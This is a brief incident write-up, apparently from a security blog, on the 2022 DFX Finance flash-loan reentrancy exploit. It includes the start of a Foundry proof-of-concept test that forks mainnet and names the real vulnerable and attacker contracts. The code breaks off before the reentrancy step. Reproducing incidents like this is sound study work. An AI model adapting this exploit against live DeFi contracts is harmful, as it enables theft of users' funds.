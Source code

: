 ## Vulnerability Analysis

attack logic is the same as [Damn Vulnerable DeFi CTF's Side Entrance](https://www.levi104.com/2023/06/23/05.Damn%20Vulnerable%20DeFi%20v2%20CTF/04.Side%20Entrance/).

## Attack Recurrence

[GitHub](https://github.com/chen4903/BlockChainPoC/blob/master/test/01.DFX.sol)

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.10;

import "forge-std/Test.sol";
import "./interface.sol";

// @KeyInfo 

// key words: @flashloan @reentrancy
// date: 2022.11.11
// total Lost: 4 million$
// network: Mainnet
// Attacker: 
// Attack Contract: 0x6cfa86a352339e766ff1ca119c8c40824f41f22d
// Vulnerable Contract: 0x46161158b1947d9149e066d6d31af1283b2d377c
// Attack Tx: 0x6bfd9e286e37061ed279e4f139fbc03c8bd707a2cdd15f7260549052cbba79b7

// @Info
// Vulnerable Contract Code : 0x46161158b1947d9149e066d6d31af1283b2d377c

// @Analysis
// blog: https://www.levi104.com/2023/07/15/08.PoC/03.DFX%20Finance%20@Reentrancy@flashloan/


contract DFXTest is DSTest{
    IERC20 XIDR = IERC20(0xebF2096E01455108bAdCbAF86cE30b6e5A72aa52);
    IERC20 USDC = IERC20(0xA0b86991c6218b36c1d19D4a2e9Eb0cE3606eB48);
    IERC20 WETH = IERC20(0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2);
    Uni_Router_V3 Router = Uni_Router_V3(0xE592427A0AEce92De3Edee1F18E0157C05861564);
    Curve dfx = Curve(0x46161158b1947D9149E066d6d31AF1283b2d377C);
    uint256 receiption;

    CheatCodes cheats = CheatCodes(0x7109709ECfa91a80626fF3989D68f67F5b1DD12D);

    function setUp() public {
        cheats.createSelectFork("mainnet", 15941703);
    }

    function testExploit() public{
        address(WETH).call{value: 2 ether}("");
        WETH.approve(address(Router), type(uint).max);
        USDC.approve(address(Router), type(uint).max);
        USDC.approve(address(dfx), type(uint).max);
        XIDR.approve(address(Router), type(uint).max);
        XIDR.approve(address(dfx), type(uint).max);

        WETHToUSDC();

        emit log_named_decimal_uint(
            "[Before] Attacker USDC balance before exploit",
            USDC.balanceOf(address(this)),
            6
        );
```